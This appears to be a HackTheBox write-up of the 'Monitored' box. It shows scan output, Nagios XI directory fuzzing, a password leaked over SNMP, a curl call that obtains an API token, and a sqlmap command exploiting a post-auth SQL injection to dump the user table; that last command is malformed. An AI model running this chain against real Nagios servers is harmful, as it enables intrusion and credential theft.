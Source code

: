 ```yaml
---
title: "Monitored"
date: 2024-02-29T11:30:03+00:00
draft: false
tags: ["htb"]
description: "Monitored HacktheBox Writeup"
top_img: /images/cyberpunk-red.jpg
---
```


![](https://miro.medium.com/v2/resize:fit:4800/format:webp/1*ht14f3nLye487pVBC_xxFQ.png)

Today we'll be covering an interesting box called *Monitored* introduced with a medium level difficulty so let's check it out.

### Nmap Scans.

Starting off with some port enumeration we get some interesting ports open.

```bash
PORT     STATE  SERVICE          VERSION
22/tcp   open   ssh              OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
53/tcp   closed domain
80/tcp   open   http             Apache httpd 2.4.56
135/tcp  closed msrpc
389/tcp  open   ldap
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
464/tcp  closed kpasswd5
593/tcp  closed http-rpc-epmap
636/tcp  closed ldapssl
1433/tcp closed ms-sql-s
3268/tcp closed globalcatLDAP
3269/tcp closed globalcatLDAPssl
5667/tcp open   tcpwrapped
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
## Web Enumeration (port 80)

Intially checking port 80 it redirects to `nagios.monitored.htb` 
![](https://imgur.com/ELNHUOG.png) checking the site out. We are redirected to nagios XI.
![](https://imgur.com/rcKawD1.png) which is a server and networking monitoring software.

## Fuzzing port 80.
Trying login with the default credentials found online didn't provide us with access, hence the next step was to fuzz for some directory that might be hidden.

```bash
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 305ms]
                        [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 306ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 244ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 257ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 243ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 231ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 238ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 247ms]
cgi-bin/.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 324ms]
cgi-bin/                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 324ms]
index.php               [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 208ms]
index.php               [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 254ms]
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 215ms]
nagios                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 227ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 239ms]
```
We see that the `nagios` directory seems interesting but navigating tot the directory doesn't produce anything fruitful, but looking at the link on the site we identify a certian keyword which seems like a directory `nagiosxi`.

## nagiosxi

Fuzzing the directory we get some interesting directories, 

```bash
# directory-list-2.3-small.txt [Status: 200, Size: 26737, Words: 5495, Lines: 468, Duration: 486ms]
help                    [Status: 200, Size: 26749, Words: 5495, Lines: 468, Duration: 267ms]
tools                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 298ms]
mobile                  [Status: 200, Size: 15978, Words: 2562, Lines: 225, Duration: 296ms]
admin                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 279ms]
reports                 [Status: 200, Size: 26755, Words: 5495, Lines: 468, Duration: 296ms]
account                 [Status: 200, Size: 26755, Words: 5495, Lines: 468, Duration: 294ms]
includes                [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 333ms]
backend                 [Status: 200, Size: 108, Words: 4, Lines: 5, Duration: 306ms]
db                      [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 251ms]
api                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 210ms]
config                  [Status: 200, Size: 26753, Words: 5495, Lines: 468, Duration: 291ms]
views                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 280ms]
sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 259ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 275ms]
```
Checking out `terminal` directory, there's a shell in box gui which after trying out soem authentication bypasses it didn't work.
Later on went on to fuzz the `api` endpoint. 

## API 

Fuzzing the API endpoints gives us 2 endpoints the `v1` and `includes`. v1 when fuzzing api endpoints is an indicator of version controlled endpoints. checking out the v1 endpoint we get a lot of results.

**Note**: 
If we visit /api/v1/xxx we can see that all the “endpoints” were giving us same message with size of 32 so we gave -fs 32 option to filter out mostly false-positive hits.`

```bash

license                 [Status: 200, Size: 34, Words: 3, Lines: 2, Duration: 1163ms]
%20                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 350ms]
video games             [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 288ms]
authenticate            [Status: 200, Size: 53, Words: 7, Lines: 2, Duration: 2336ms]
```

We get an interesting endpoint called authenticate but trying to access it we find that, we can only use `POST` to authenticate and since we don't have any credentials to authenticate with decided to go back to the nmap results and enumerate more.

## UDP
```bash
PORT      STATE         SERVICE
7/udp     open|filtered echo
53/udp    open|filtered domain
68/udp    open|filtered dhcpc
123/udp   open          ntp
161/udp   open          snmp
162/udp   open|filtered snmptrap
16838/udp open|filtered unknown
18617/udp open|filtered unknown
21131/udp open|filtered unknown
21698/udp open|filtered unknown
28547/udp open|filtered unknown
49181/udp open|filtered unknown
```

Enumerating UDP ports, we find that snmp is open, enumerating snmp using [braa](https://github.com/mteg/braa) a mass snmp scanner. We get interesting results.
```bash
iso.3.6.1.2.1.25.4.2.1.5.505 = STRING: "--config /etc/laurel/config.toml"
iso.3.6.1.2.1.25.4.2.1.5.549 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.550 = STRING: "--system --address=systemd: --no fork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.553 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.556 = STRING: "-u -s -O /run/wpa_supplicant"
iso.3.6.1.2.1.25.4.2.1.5.568 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.583 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
iso.3.6.1.2.1.25.4.2.1.5.642 = STRING: "-4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
iso.3.6.1.2.1.25.4.2.1.5.762 = STRING: "-f /usr/local/nagios/etc/pnp/npcd.cfg"
iso.3.6.1.2.1.25.4.2.1.5.769 = STRING: "-LOw -f -p /run/snmptrapd.pid"
iso.3.6.1.2.1.25.4.2.1.5.783 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.804 = STRING: "-p /var/run/ntpd.pid -g -u 108:116"
iso.3.6.1.2.1.25.4.2.1.5.806 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.841 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
iso.3.6.1.2.1.25.4.2.1.5.843 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
iso.3.6.1.2.1.25.4.2.1.5.848 = STRING: "-h ldap:/// ldapi:/// -g openldap -u openldap -F /etc/ldap/slapd.d"
iso.3.6.1.2.1.25.4.2.1.5.860 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.870 = STRING: "-D /var/lib/postgresql/13/main -c config_file=/etc/postgresql/13/main/postgresql.conf"
iso.3.6.1.2.1.25.4.2.1.5.942 = STRING: "/usr/sbin/snmptt --daemon"
iso.3.6.1.2.1.25.4.2.1.5.943 = STRING: "/usr/sbin/snmptt --daemon"
iso.3.6.1.2.1.25.4.2.1.5.972 = STRING: "-pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6"
iso.3.6.1.2.1.25.4.2.1.5.976 = STRING: "-d /usr/local/nagios/etc/nagios.cfg"
iso.3.6.1.2.1.25.4.2.1.5.977 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.978 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.979 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
```

we identify there's a user called `svc` and also a passowrd that the user tried to authenticate with.
```bash
iso.3.6.1.2.1.25.4.2.1.5.583 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
```

## Initial Foothold.

Now having creds to login and hving prior knowledge that we have a few instances on the `API` and `terminal` endpoints that we had to try out, started out with the terminal endpoint, didn't give us any results, proceeded to the `API` endpoint where we are need to construct a post request so as to authenticate.

![](https://imgur.com/dEBYn5d.png)

An Auth Token Obtain after using curl.

```bash 
curl -X POST -k -L -d 'username=svc&password=XjH7VCehowpR1xZB' https://nagios.monitored.htb/nagiosxi/api/v1/authenticate/```

```bash 
{"username":"svc","user_id":"2","auth_token":"76064ac8a8a9ece7c349404e1f99a45665e9acfc","valid_min":5,"valid_until":"Fri, 23 Feb 2024 22:38:15 -0500"}
```
we get an auth token, going back to the `nagios` directory, we can authenticate and successfully login.

![](https://imgur.com/fHkual8.png)


According with this [CVE](https://www.cve.org/CVERecord?id=CVE-2023-40931) there is a Post-Auth SQLi, so let’s try POST /nagiosxi/admin/banner_message-ajaxhelper.php HTTP/1.1 to get the admin api_key which is in xi_users in this sqlmap command on the way to add new user with administrative privileges

```bash
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users | awk -F'"' '{print$12}'" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users

```


